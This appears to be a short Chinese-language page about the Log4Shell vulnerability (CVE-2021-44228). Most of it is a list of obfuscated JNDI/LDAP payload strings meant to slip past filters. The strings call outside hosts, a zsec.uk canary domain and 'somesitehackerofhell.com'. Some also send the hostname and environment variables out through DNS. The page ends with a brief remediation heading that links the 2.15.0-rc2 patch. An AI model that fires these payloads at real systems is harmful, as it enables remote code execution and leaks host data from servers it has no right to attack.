 ```
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```

[CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)


```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}

${jnd${upper:ı}:ldap://somesitehackerofhell.com/z}

${jnd${sys:SYS_NAME:-i}:ldap:/somesitehackerofhell.com/z}

${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://somesitehackerofhell.com/z}

${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://somesitehackerofhell.com/z}

${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://somesitehackerofhell.com/z}

${jndi:ldap://127.0.0.1#somesitehackerofhell.com/z}

{
    "one-${jnd${a":"a:-i}:ld${",
    "two":"o:-a}p://somesitehackerofhell.com/z}
}
```
## 修复方案

截止到目前，网上的修复方法大致是这些：

补丁链接:
[log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)
